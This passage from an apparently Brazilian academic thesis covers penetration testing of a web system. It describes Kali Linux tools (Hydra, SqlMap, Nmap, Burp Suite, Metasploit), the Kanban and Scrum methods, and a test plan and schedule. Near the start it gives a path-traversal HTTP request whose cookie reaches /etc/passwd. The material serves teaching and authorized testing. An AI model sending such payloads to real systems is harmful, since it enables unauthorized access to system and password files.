Em caso de sucesso o atacante consegue acessar informações não autorizadas e sensíveis como: o código compilado da aplicação, arquivos do Sistema Operacional da máquina que hospeda a aplicação, Arquivos de Senhas, etc.


Um exemplo de código para esse tipo de ataque seria a execução da seguinte chamada HTTP:



\begin{center}
\emph{GET /sistemaVulneravel.php HTTP/1.0}
\end{center}



\begin{center}
\emph{Cookie: TEMPLATE=../../../../../../../../../etc/passwd}
\end{center}


Caso executado com sucesso, o código acima conseguiria realizar o download do arquivo de senhas de uma máquina que utiliza Linux.



\subsection{Pentest}

Também conhecido como Teste de Intrusão, é o nome dado a auditoria de segurança feita por um profissional de TI, denominado Pentester. O Pentest busca simular a ação de indivíduos mal intencionados para identificar se há vulnerabilidades que possam comprometer a segurança da informação de um sistema ou empresa.


O alvo de um Pentest pode ser um software ou até mesmo a política de uma empresa.~No primeiro caso, são utilizadas ferramentas para tentar burlar o esquema de segurança do software, coletar resultados e reproduzir ataques. No segundo caso, podem ser avaliadas: a política de segurança da empresa e o comportamento de seus funcionários frente a algumas situações como: recebimento de e-mails suspeitos e manuseio de informações sigilosas.



\section{Kanban}

É uma metodologia de desenvolvimento ágil~pouco prescritiva \citep{62235}~e por isso, consegue ser facilmente integrada a outras metodologias para melhorar o processo de desenvolvimento de software de equipes ágeis.


Basicamente, o Kanban tem como fundamento os pontos abaixo:



\begin{enumerate}[start=1]
	
\item Fluxo de Trabalho (Workflow):~
	A maior preocupação do Kanban é com a transparência do processo de desenvolvimento, a todos os colaboradores. O motivo disso é que caso seja identificado um gargalo~, existe a possibilidade dos colaboradores encontrarem processos que o resolvam rapidamente;

	
	
\item Limite de quantidade de trabalho paralelo (WIP): ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ Existe uma variável chamada WIP (Work In Progress, Trabalho em andamento) que representa a vazão de trabalho que a equipe consegue suportar. A principal motivação dessa ideia é deixar transparente a quantidade de tarefas que a equipe consegue atender em determinado período do processo;
	
\item Gerenciamento e Medidas sobre o fluxo:Como todas as metodologias de desenvolvimento, é preciso estabelecer métricas e avaliar números para saber como está o andamento da equipe. Para fazer melhorias, primeiro deve-se conhecer onde a equipe acerta e onde ela erra.
	
\item Oportunidade de Melhorias:Como foi dito previamente, através das medidas é que se encontram os pontos de melhoria. O Kanban foca no processo contínuo de aprimoramento do processo;

\end{enumerate}


\section{Scrum}

É uma metodologia de desenvolvimento ágil bem conhecida no âmbito de gestão e planejamento de projetos de software. Para o Scrum, os itens de funcionalidades que serão desenvolvidos em um projeto são chamados de Product Backlog e o desenvolvimento é dividido em ciclos de tempo denominado Sprints.\citep{62123}


As Sprints são normalmente divididas em semanas~e no inicio ocorre uma reunião chamada Planning, para planejar quais atividades serão inseridas no pipeline da Sprint. Passada essa etapa, o acompanhamento é feito em reuniões diárias rápidas (15 minutos) chamadas Daily Scrum. Nela todos os membros dão feedback do que foi feito, do que será feito e impedimentos encontrados durante a Sprint. O motivo disso é manter a comunicação da equipe e resolver problemas que atrapalhem o progresso da Sprint.


Ao final da Sprint, acontecem duas reuniões chamadas Sprint Review e Sprint Retrospective. A Sprint Review é onde o time apresenta as funcionalidades desenvolvidas no curso da Sprint. Enquanto que a Sprint Retrospective, é a reunião para avaliar como foi a Sprint e apontar pontos problemáticos e possíveis melhorias a serem feitas na próxima Iteração.



\chapter{Metodologia}


\section{Kali Linux}

É um sistema operacional open source baseado no Debian. O Kali é o sucessor do Back-Track\citep{62218} e foi desenvolvido para auxiliar o trabalho do pentest, pois já vem pré-configurado com uma série de ferramentas para testes de exploração\citep{62219}, dentre as quais se destacam:



\begin{enumerate}[start=1]
	
\item Nmap;
	
\item Hydra;
	
\item Metasploit;
	
\item Burp Suite;
	
\item John the Ripper.

\end{enumerate}

Ele pode ser encontrado na página do projeto \citep{62216}e lá diversas ISO\rq{}s podem ser adquiridas para a instalação. Durante os testes realizados neste trabalho, foi utilizada a versão 1.1.0.


Para instalar e executar o Kali, a configuração mínima é:



\begin{center}
\tablefirsthead{
\toprule
\multicolumn{1}{D{0.206336\linewidth}}{\fftablefontsize Arquitetura do Processador} & 
\multicolumn{1}{D{0.284704\linewidth}}{\fftablefontsize i386 ou AMD64}\\
}
\tablehead{
\toprule
\multicolumn{1}{D{0.102342656\linewidth}}{\fftablefontsize Arquitetura do Processador} & 
\multicolumn{1}{D{0.141213184\linewidth}}{\fftablefontsize i386 ou AMD64}\\
}
\tabletail{
\bottomrule
}
\tablelasttail{
\bottomrule
\multicolumn{2}{D{0.496\linewidth}}{\newline\ffcaptionfontsize Autoria Própria}\\
}
\begin{mpxtabular}{ll}
\multicolumn{1}{D{0.206336\linewidth}}{\fftablefontsize Espaço em Disco} & 
\multicolumn{1}{D{0.284704\linewidth}}{\fftablefontsize 8 GB disponíveis}\\
\multicolumn{1}{D{0.206336\linewidth}}{\fftablefontsize Memória} & 
\multicolumn{1}{D{0.284704\linewidth}}{\fftablefontsize 512 MB}\\
\end{mpxtabular}
\end{center}



\section{Ferramentas Utilizadas}


\subsection*{Hydra}

É uma das ferramentas disponibilizadas no Kali Linux e pode ser utilizada para realizar ataques do tipo força bruta. Ela foi escrita em C e é uma ferramenta bem versátil para testes de força bruta~, sendo capaz de realizar tentativas de intrusão usando vários protocolos como, por exemplo:


~


\begin{enumerate}[start=1]
	
\item HTTP GET e POST;
	
\item FTP;
	
\item SSH;
	
\item Mysql;
	
\item Cisco;
	
\item LDAP.

\end{enumerate}

Como é uma ferramenta open source e colaborativa, existe um projeto hospedado no repositório Github onde qualquer desenvolvedor interessado pode baixar o código fonte, abrir tickets e submeter correções.\citep{62221}





\begin{figure}[htp]
\centering
\caption{Exemplo de uso da Hydra}

\includegraphics[width=450px]{image1.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Para os testes descritos neste trabalho, foi utilizada a versão 8.1 que é a versão atual do software.



\subsection*{SqlMap}

É uma ferramenta escrita em Python que automatiza os processos de detecção e intrusão usando SQL Injection~. Como a grande maioria das ferramentas disponibilizadas no Kali, é uma ferramenta open source e colaborativa sendo bem famosa entre os pentesters profissionais. Ela consegue interagir com os principais bancos de dados mais conhecidos e fazer inúmeras tentativas de intrusão.


O SqlMap possui uma página própria e um projeto no Github \citep{62222}~de onde é possível baixar o código do projeto, abrir tickets e submeter correções e melhorias.





\begin{figure}[htp]
\centering
\caption{Exemplo de uso do SqlMap}

\includegraphics[width=460px]{image12.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


A versão mais atual do SqlMap é a 1.0, mesma versão utilizada durante os testes descritos neste trabalho.



\subsection*{Nmap}

É o acrônimo de Network Mapper (Mapeador de Redes), outra ferramenta de grande uso da comunidade pentester.~ Trata-se de um flexível scaneador de portas utilizado na etapa de conseguir informações do sistema alvo~. O software foi escrito em C, C++, Python e Lua.


Além de ser de fácil uso, possui grande documentação disponível e muitos tutoriais online \citep{62223}.


Quanto ao seu funcionamento, o Nmap utiliza pacotes IP brutos para tentar conexões com portas de um sistema e a partir disso descobrir se estão abertas ou fechadas, os serviços disponíveis nessas portas e suas versões, e o sistema operacional utilizado na máquina que hospeda a aplicação alvo.





\begin{figure}[htp]
\centering
\caption{Exemplo de uso do Nmap}

\includegraphics[width=450px]{image8.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


A versão mais atual do Nmap é a 7.12. Neste trabalho foi utilizada a versão 6.49.



\subsection*{Burp Suite}

É um grande framework de testes de intrusão que contém vários módulos interessantes para o uso de testes intrusivos em sistemas web\citep{62224}~. Ao contrário das demais ferramentias descritas anteriormente, o Burp é uma ferramenta privada e licenciada onde para utilizar todos os módulos disponíveis no programa é necessário adquirir uma licença com seus criadores. Entretanto há alguns módulos do sistema que podem ser utilizados gratuitamente.


Os módulos disponibilizados pelo Burp são:



\begin{enumerate}[start=1]
	
\item Burp Target;
	
\item Burp Intruder;
	
\item Burp Spider;
	
\item Burp Decoder;
	
\item Burp Proxy;
	
\item Burp Scanner;
	
\item Burp Repeater;
	
\item Burp Comparer.

\end{enumerate}

Dentre os módulos citados, apenas o Burp Scanner não está disponível na versão gratuita.


Neste trabalho, foi utilizada a versão gratuita do software, para tal foi possível utilizar somente os módulos:



\begin{itemize}
	
\item Spider - responsável por fazer um mapeamento completo na hierarquia de diretórios do sistema atacado;
	
\item Proxy - capaz de interceptar todas as requisições ao sistema alvo trazendo informações como cabeçalho das requisições HTTP e parâmetros passados entre cliente e servidor.

\end{itemize}




\begin{figure}[htp]
\centering
\caption{Interface do Burp Suite}

\includegraphics[width=450px]{image2.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Neste trabalho foi utilizada a versão 1.6.01 desse software.



\subsection*{Metasploit}

Trata-se de um framework automatizado para testes de intrusão escritos em Ruby. Embora ele seja propriedade da empresa Rapid7\citep{62226}, existe uma versão gratuita disponibilizada no Kali Linux. É uma ferramenta que trabalha com dois conceitos: Exploits e Payloads.


Exploit é o nome dado ao código mal-intencionado e é feito com o propósito de executar uma ação não autorizada a fim de causar prejuízos. Exemplo: Caso um programa possua uma falha que seja conhecida, o exploit é o código que se aproveita dessa falha para conseguir um acesso não autorizado.


Payload é o nome normalmente dado à transmissão de dados, pois significa \textquotedblleft{}Carga Paga\textquotedblright{}. Para o Metasploit, payload é o código executado depois que um exploit conseguiu sucesso, ou seja, a ação nociva dentro do sistema que será executado. Exemplo: Baseando-se na falha citada no trecho anterior, após a execução do exploit, um possível payload seria a busca das senhas criptografadas dos usuários do sistema alvo ou até a inserção de um novo usuário para fins danosos ao sistema.


O Metasploit possui uma grande base de dados de exploits e payloads\citep{62204}. Além disso, é possível que um pentester também possa escrever os próprios exploits que se integrem aos já existentes.~\citep{62225}



\subsection*{Iceweasel}

É um navegador web de código aberto para sistemas baseados em Debian idêntico ao Mozilla. Ele é o navegador padrão configurado no Kali Linux.



\section{Processo de teste}

Essa seção descreve todo o processo de testes utilizado nesse trabalho.


O processo foi divido em dois papeis: Orientador e Analista de Testes. A Figura 1 foi gerada usando a ferramenta de modelagem de processo Bizagi e mostra a participação de cada papel no processo de execução dos testes intrusivos.





\begin{figure}[htp]
\centering
\caption{Processo de testes}

\includegraphics[width=450px]{image1.png}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Como mostra a Figura 1, o processo está dividido em duas etapas: Planejamento e Execução dos testes.


Na etapa de Planejamento, o Orientador realiza a reunião semanal para planejamento da iteração, então os seguintes artefatos são gerados:



\begin{enumerate}[start=1]
	
\item Backlog dos testes, contendo os itens descritivos dos alvos do teste;
	
\item Backlog de Iteração, com informações sobre o que deve ser feito ao longo da iteração;
	
\item Ata de Reunião, demonstrando a ciência de todos os membros envolvidos na reunião dos rumos definidos por ela.

\end{enumerate}

Passada essa etapa, a iteração entra na fase de Execução dos testes. Aqui, os analistas de testes têm a responsabilidade de realizar o teste referente a cada um dos itens previamente escolhidos para a iteração e reportar problemas.


Na fase de Execução de testes a atividade começa com a checagem da disponibilidade do ambiente de testes. Caso o ambiente esteja por algum motivo indisponível, a ação é reportada via e-mail para a equipe responsável pelo sistema. Após isso, caso o problema persista a atividade é encerrada.


Nos casos onde o problema é resolvido ou o ambiente está disponível, um item de teste do backlog da sprint é selecionado para teste. Em seguida, o Analista de Teste inicia a execução do teste propriamente dita. Após a finalização do teste, o analista de teste reporta o resultado obtido e um Relatório de execução de testes é gerado. Feito isso, a atividade é encerrada.



\chapter{Desenvolvimento}


\section{Plano de testes}

Este documento tem como propósito descrever o objetivo, os recursos, o escopo e o cronograma das atividades de teste de penetração do sistema explorado.



\subsection*{Objetivos}

Este planejamento busca identificar, no sistema a ser explorado, informações para realizar testes exploratórios a fim de encontrar possíveis vulnerabilidades de segurança que possam comprometer o funcionamento do sistema. Além disso, deseja-se: listar o escopo do sistema que deverá ser testado, descrever o processo de teste a ser empregado bem como todos os recursos necessários para a execução dos testes. Por fim, prover uma estimativa do tempo para os testes a serem realizados.



\subsection*{Estratégia de Testes}

A estratégia de testes de software descreve em alto nível a abordagem geral das atividades de teste.


A tabela a seguir exibe em alto nível a estratégia de testes abordada neste projeto.



\begin{center}
\tablefirsthead{
\toprule
\multicolumn{1}{D{0.144004\linewidth}}{\fftablefontsize \textbf{Contexto}} & 
\multicolumn{1}{D{0.090072\linewidth}}{\fftablefontsize \textbf{Tecnicas de Teste}} & 
\multicolumn{1}{D{0.090072\linewidth}}{\fftablefontsize \textbf{Tipo de Teste}} & 
\multicolumn{1}{D{0.112868\linewidth}}{\fftablefontsize \textbf{Tipo de Execução}} & 
\multicolumn{1}{D{0.106752\linewidth}}{\fftablefontsize \textbf{Nível de Teste}}\\
}
\tablehead{
\toprule
\multicolumn{1}{D{0.080066224\linewidth}}{\fftablefontsize \textbf{Contexto}} & 
\multicolumn{1}{D{0.050080032\linewidth}}{\fftablefontsize \textbf{Tecnicas de Teste}} & 
\multicolumn{1}{D{0.050080032\linewidth}}{\fftablefontsize \textbf{Tipo de Teste}} & 
\multicolumn{1}{D{0.062754608\linewidth}}{\fftablefontsize \textbf{Tipo de Execução}} & 
\multicolumn{1}{D{0.059354112\linewidth}}{\fftablefontsize \textbf{Nível de Teste}}\\
}
\tabletail{
\bottomrule
}
\tablelasttail{
\bottomrule
\multicolumn{5}{D{0.556\linewidth}}{\newline\ffcaptionfontsize Autoria Própria}\\
}
\begin{mpxtabular}{lllll}
\multicolumn{1}{D{0.144004\linewidth}}{\fftablefontsize Todo o sistema exceto a funcioanlidade~Listar Alunos\footnote{Essa funcionalidade não foi testada, pois requer a busca de dados no sistema QAcadêmico. Esse sistema, não pode ser acessado a partir do ambiente de teste que será utilizado.}} & 
\multicolumn{1}{D{0.090072\linewidth}}{\fftablefontsize Teste exploratório} & 
\multicolumn{1}{D{0.090072\linewidth}}{\fftablefontsize Teste de Penetração} & 
\multicolumn{1}{D{0.112868\linewidth}}{\fftablefontsize Manual e Automatizada} & 
\multicolumn{1}{D{0.106752\linewidth}}{\fftablefontsize Teste de Sistema}\\
\end{mpxtabular}
\end{center}





\subsection*{Escopo}

Para esse plano de testes foram testadas as seguintes funcionalidades do sistema:



\begin{itemize}
	
\item Login;
	
\item Consulta e cadastro de servidor;
	
\item Consulta e cadastro de Lotes;
	
\item Consulta e Cadastro de Vacinas;
	
\item Relatórios.

\end{itemize}


\subsection*{Cronograma}


\begin{center}
\tablefirsthead{
\toprule
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize \textbf{Atividade}} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize \textbf{Início}} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize \textbf{Fim}} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize \textbf{Responsável}}\\
}
\tablehead{
\toprule
\multicolumn{1}{D{0.163694763\linewidth}}{\fftablefontsize \textbf{Atividade}} & 
\multicolumn{1}{D{0.091350261\linewidth}}{\fftablefontsize \textbf{Início}} & 
\multicolumn{1}{D{0.093802617\linewidth}}{\fftablefontsize \textbf{Fim}} & 
\multicolumn{1}{D{0.256884291\linewidth}}{\fftablefontsize \textbf{Responsável}}\\
}
\tabletail{
\bottomrule
}
\tablelasttail{
\bottomrule
\multicolumn{4}{D{0.783\linewidth}}{\newline\ffcaptionfontsize Autoria Própria}\\
}
\begin{mpxtabular}{llll}
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 1} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 2} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 3} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 4} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 5} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 03/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 03/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 6} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 03/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 10/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 03/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 03/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 03/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 10/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de revisão Iteração 6} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 10/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 10/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\end{mpxtabular}
\end{center}


Devido os impedimentos ocorridos na Iteração 01, 04 e 06 o cronograma sofreu alterações nos prazos, conforme a tabela a seguir.



\begin{center}
\tablefirsthead{
\toprule
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize \textbf{Atividade}} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize \textbf{Início}} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize \textbf{Fim}} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize \textbf{Responsável}}\\
}
\tablehead{
\toprule
\multicolumn{1}{D{0.163694763\linewidth}}{\fftablefontsize \textbf{Atividade}} & 
\multicolumn{1}{D{0.091350261\linewidth}}{\fftablefontsize \textbf{Início}} & 
\multicolumn{1}{D{0.093802617\linewidth}}{\fftablefontsize \textbf{Fim}} & 
\multicolumn{1}{D{0.256884291\linewidth}}{\fftablefontsize \textbf{Responsável}}\\
}
\tabletail{
\bottomrule
}
\tablelasttail{
\bottomrule
\multicolumn{4}{D{0.783\linewidth}}{\newline\ffcaptionfontsize Autoria Própria}\\
}
\begin{mpxtabular}{llll}
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 1} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 21/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 2} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 28/03/16} & 
